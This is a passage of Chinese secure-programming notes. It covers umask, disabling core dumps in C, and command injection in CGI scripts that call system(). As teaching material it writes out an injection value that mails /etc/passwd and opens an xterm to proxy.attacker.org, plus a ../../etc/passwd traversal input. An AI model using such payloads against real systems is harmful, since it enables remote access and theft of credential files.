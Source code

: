         如何防护它：显式设置 umask 值（使用`umask(077)`），或者显式设置新创建文件的权限（使用`chmod("newfile",0755)`。
+   内存转储
    +   如果你的程序保存了敏感数据，例如未加密的密码，你应该禁止程序的内核转储。
    +   如何禁用内和转储？
    
        ```c
        #include <sys/time.h> 
        #include <sys/resource.h> 
        #include <unistd.h>  
        
        int main(int argc, char **argv) {
            struct rlimit   rlim;
            getrlimit(RLIMIT_CORE, &rlim);
            rlim.rlim_max = rlim.rlim_cur = 0;
            if (setrlimit(RLIMIT_CORE, &rlim)) {
                exit(-1);         
            }
            ...
            return 0;
        } 
        ```
        
    +   Solaris 默认（Solaris 8 开始）不允许 Set-UID 程序由于明显的安全原因的内核转储。
    
#### 3 调用其它程序

+   安全地调用其它程序
    +   如果 CGI 脚本这样做，会有什么潜在的问题？
    
        ```c
        // $Recipient contains email address provided by the user  
        //      using web forms.   
        system("/bin/mail", $Recipient); 
        ```
        
    +   `$Recipient`可能包含 Shell 的特殊字符（`| & < >`）（命令注入）。
    
        ```
        "attacker@hotmail.com < /etc/passwd;  
        export DISPLAY=proxy.attacker.org:0; /usr/X11R6/bin/xterm&;" 
        ```
        
    +   如果 CGI 脚本这样做，会有什么潜在的问题？
    
        ```c
        system("cat", "/var/stats/$username"); 
        ```
        
    +   攻击者可以将用户名提交为`../../etc/passwd`（命令注入、路径遍历）。
    
    +   如果 CGI 脚本这样做，会有什么潜在的问题？

        ```c
        sprintf(buf,"telnet %s",url); 
        system(buf); 
        ```
        